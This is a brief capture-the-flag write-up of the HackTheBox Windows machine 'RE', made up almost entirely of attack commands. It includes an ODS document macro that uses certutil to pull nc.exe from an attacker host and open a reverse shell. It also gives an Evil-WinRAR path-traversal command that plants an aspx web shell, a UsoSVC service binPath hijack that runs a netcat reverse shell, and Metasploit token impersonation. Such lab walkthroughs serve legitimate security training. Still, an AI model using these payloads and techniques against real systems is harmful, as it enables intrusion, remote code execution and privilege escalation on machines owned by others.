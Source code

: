 ```yaml
---
categories:
- CTF
image:
  path: https://img.youtube.com/vi/_0UuRTxFfjA/0.jpg
layout: post
media_subpath: /assets/posts/2020-02-01-re-hackthebox
tags:
- hackthebox
- metasploit
- phishing
- token
- usosvc
- windows
- winrar
title: RE @ HackTheBox
---
```


RE is a 40 point windows machine on HackTheBox that involves uploading an ods file with a malicious macro, abusing a winrar vulnerability and using UsoSVC together with metasploit’s incognito module to become root.

{% youtube _0UuRTxFfjA %}

## Notes

ODS Macro:

```
Sub Run_at_open
Shell("certutil.exe -urlcache -split -f 'http://<lhost>:8000/nc.exe' C:\Windows\System32\spool\drivers\color\nc.exe")
Shell("C:\Windows\System32\spool\drivers\color\nc.exe <lhost> 7000 -ecmd.exe")
End Sub
```

[EvilWinRar](https://github.com/manulqwerty/Evil-WinRAR-Gen):

```
python3 evilWinRAR.py -e xct_shell.aspx -p 'c:\inetpub\wwwroot\re\' -o xct.rar
```

UsoSVC:

```
sc config usosvc binPath="C:\Windows\System32\spool\drivers\color\nc.exe <lhost> 9000 -e cmd.exe"
sc stop usosvc
sc start usosvc
```

Incognito:

```
use incognito
list_tokens -u
impersonate_token RE\\coby
```
